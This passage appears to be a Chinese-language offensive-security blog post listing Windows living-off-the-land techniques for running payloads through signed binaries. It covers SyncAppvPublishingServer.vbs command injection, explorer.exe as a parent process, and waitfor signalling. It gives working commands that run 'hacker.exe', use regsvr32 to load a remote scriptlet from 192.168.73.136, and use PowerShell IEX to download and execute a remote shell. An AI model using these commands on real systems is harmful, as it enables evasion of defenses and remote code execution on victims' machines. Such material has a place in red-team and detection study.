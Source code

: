 SyncAppvPublishingServer
为启动Microsoft应用程序虚拟化（App-V）发布刷新操作，在下面的示例中，将在powershell中执行， Start-Process
cmdlet用于运行可执行文件。



命令：

  * 

    
    
    SyncAppvPublishingServer.vbs "n; Start-Process C:\tmp\hacker.exe"

由于SyncAppvPublishingServer将执行双引号中包含的所有内容，因此还可以使用“ regsvr32 ”方法从远程位置执行恶意有效负载。



命令：

  * 

    
    
    SyncAppvPublishingServer.vbs "Break; regsvr32 /s /n /u /i:http://192.168.73.136:8080/jnQl1FJ.sct scrobj.dll"

  

Explorer:



可以将explorer.exe 用作执行方法。执行的有效负载将在系统上创建一个进程，该进程将把explorer.exe作为父进程。



命令：

  * 

    
    
    explorer.exe C:\tmp\hacker.exeexplorer.exe /root,"C:\tmp\hacker.exe"explorer.exe 0XAXSDD-Hacker, "C:\tmp\hacker.exe"

Waitfor：



waitfor是Microsoft二进制文件，用于通过发送信号来跨网络同步计算机，也可用于执行任意命令或下载有效载荷。



命令：

  *   * 

    
    
    waitfor hacker && PowerShell IEX(new-object net.webclient).downloadstring('http://192.168.73.136:8080/shell');waitfor /s 127.0.0.1 /si hacker

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210818090727.png)

当然这里只总结了一些，也没总结完，但也值得学习与思考，希望能给你一个好的思路！ ****

  

  
